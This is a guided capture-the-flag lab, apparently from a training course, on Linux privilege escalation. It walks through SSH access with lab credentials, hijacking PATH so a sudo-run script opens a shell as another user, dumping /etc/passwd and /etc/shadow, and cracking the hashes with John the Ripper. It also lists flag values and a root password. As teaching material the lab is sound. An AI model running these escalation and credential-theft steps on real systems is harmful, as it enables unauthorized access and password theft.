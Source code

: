 # Guided Lab: Priv Esc

## Introduction

Welcome to this First guided lab, today we will be talking about **Privilege Escalation** with a real case scenario, while praticing what we learnt about linux commands and tools.

Follow along and try to hack the system !

## Description

Let's suppose that after a pentesting process of an application you finally retrieved the credentials of a user. It's time to access theremote server and try to gain the root uer.

In this lab, we will practice a **User to Administrator** scenario in order to retrieve the `root` credentials, by using different techniques and methods.

## Instructions

### Accessing the machine

Our first oder is to access the machine remotly. To do that, you need to use the `ssh` command with the following informations:

- **Port:** 1337
- **User:** ctf
- **HOSTNAME:** IP_ADDRESS of the Instructor

**Reminder:** Here is a reminder of how the `ssh` command should look like:

```sh
ssh -p PORT USER@HOSTNAME
```

From there, the shell will ask you for the password of the user:

- **Password:** ctf

If you successfully access the machine, you will be able to use the shell of the machine, try to the following commands:

- `whoami`: see if the prompts the same user that you logged in with
- **Navigation:** using `ls` and stuff, try to navigate arround and see the structure of the file system in that server and which information can you possibly retrieve:
  - **Users:** in the `/etc/passwd` file, check available users.
  - **Hosts:** in the `/etc/hosts`, see if there is some domains available to check.
  - **Applications:** using the `ps` command, see if the is some unusual process or running applications.

In the home directory of the user `USER` (`/home/USER`), you will find a `user.txt` file, read it and get you first Flag !

### Path manipulation

When entering the instance, we can find the `flag.txt` in the currect directory, we will find also a shell script `my_ls` :

```
ctf@path-57568c5f85-czp5h:~$ ls -l
total 8
-r--r----- 1 root ctf-cracked 40 Dec 20 18:44 flag.txt
-r-xr-xr-x 1 root root        21 Dec 20 18:44 my_ls
ctf@path-57568c5f85-czp5h:~$ cat my_ls
#!/bin/bash

ls -alh
```

It seems like our `my_ls` script is executing `ls` command.

Also when trying to read the `flag.txt`, unfortunatly, we can't read it. First thing to do is to check for sudo priviledges for our user :

```
ctf@path-57568c5f85-czp5h:~$ sudo -l
[sudo] password for ctf: 
Matching Defaults entries for ctf on path-57568c5f85-czp5h:
    env_reset, mail_badpass, env_keep+=PATH

User ctf may run the following commands on path-57568c5f85-czp5h:
    (ctf-cracked) /home/ctf/my_ls

```

Let's try to execute the `my_ls` script :

```
ctf@path-57568c5f85-czp5h:~$ sudo -u ctf-cracked ./my_ls 
total 28K
drwxr-xr-x 1 root root        4.0K Dec 24 16:22 .
drwxr-xr-x 1 root root        4.0K Dec 24 16:22 ..
-rw-r--r-- 1 root root         220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root root        3.7K Jan  6  2022 .bashrc
-rw-r--r-- 1 root root         807 Jan  6  2022 .profile
-r--r----- 1 root ctf-cracked   40 Dec 20 18:44 flag.txt
-r-xr-xr-x 1 root root          21 Dec 20 18:44 my_ls

```

Nothing new, it just list content of current directory (it doesn't take arguments).


Now, moving on to the Now, moving on to the solution, and since the challenge is named `PATH`, Let's try to do some **Linux Privilege Escalation Using PATH Variable**. First, let's see the content of `$PATH` variable :

```
ctf@path-57568c5f85-czp5h:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Now, let's see if this variable is writable :

```

ctf@path-57568c5f85-czp5h:~$ PATH=""
ctf@path-57568c5f85-czp5h:~$ echo $PATH

ctf@path-57568c5f85-czp5h:~$ PATH=".:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
"
ctf@path-57568c5f85-czp5h:~$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf@path-57568c5f85-czp5h:~$ export PATH=$PATH
```

Indeed, we can modify the content of the `PATH` variable and add other paths to the directories we like.

So, for the solution, let's try to use the `my_ls` script and this `PATH` vulnerability to do a Privilege Escalation. The main idea is to create a new `ls` command that actually pops a shell when it is executed. and to make it priviledged from the usual `ls` (since after trying, we can't write in the `/bin` folder, i.e modify original one), by adding a new path to a folder, that we can write and modify : `/tmp`.

```
ctf@path-57568c5f85-czp5h:~$ cd /tmp
ctf@path-57568c5f85-czp5h:/tmp$ echo "/bin/bash" > ls
ctf@path-57568c5f85-czp5h:/tmp$ chmod 777 ls
ctf@path-57568c5f85-czp5h:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf@path-57568c5f85-czp5h:/tmp$ export PATH=/tmp:$PATH
ctf@path-57568c5f85-czp5h:/tmp$ cd /home/ctf/
ctf@path-57568c5f85-czp5h:~$ sudo -u ctf-cracked ./my_ls
[sudo] password for ctf
ctf-cracked@path-57568c5f85-czp5h:/home/ctf$ whoami
ctf-cracked
ctf-cracked@path-57568c5f85-czp5h:/home/ctf$ cat flag.txt
```

### Cracking Passwords

we are going to show how we can crack `/etc/shadow` file using John the Ripper. It is common in CTF like events to somehow get access to the shadow file or part of it and having to crack it so you can get the password of a user.

The process involves two basic steps, the first is called unshadowing while the second is the cracking itself. Unshadowing is a process where we combine the `/etc/passwd` file along with the `/etc/shadow` in order for John to be able to understand what we are feeding to it. Unshadow is a tool that handles this task and it is part of the John package. In order to unshadow the shadow file we need to also have the equivalent line from the passwd for the user of our interest. An example is the following:

```
# /etc/passwd line
root:x:0:0:root:/root:/bin/bash

# /etc/shadow line
root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7:::
```

First commands to do is the following is to print out `/etc/passwd` to print current users, and `/etc/shadow` to print their respective passwords:

```
cat /etc/passwd > passwd.txt
```

```
cat /etc/shadow > shadow.txt
```

**Note:** You can send them via a remote server or just copy them to your local machine

From there, In order to unshadow to the two files we need to execute:

```
unshadow passwd.txt shadow.txt > unshadowed.txt
```

Finally, we have the `unshadowed.txt` file. Next and final step is to actually start the cracking with John. It is up to you which cracking method you will chose, though a bruteforcing using a wordlist is usually enough for CTFs. An example attack using a wordlist would be launched like below:

```
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## Flag

- PATH Flag: gomycode{fiRST_pR1v_3Sc_w1tH_p4TH_m4n1PUL4TioN}
- User Flag: gomycode{FIr$T_fL4g_To_BoOST_y0UR_F3ELinGs}
- Root Flag: 123456

## More Infromation

- JohnTheRipper to crack password: https://erev0s.com/blog/cracking-etcshadow-john/
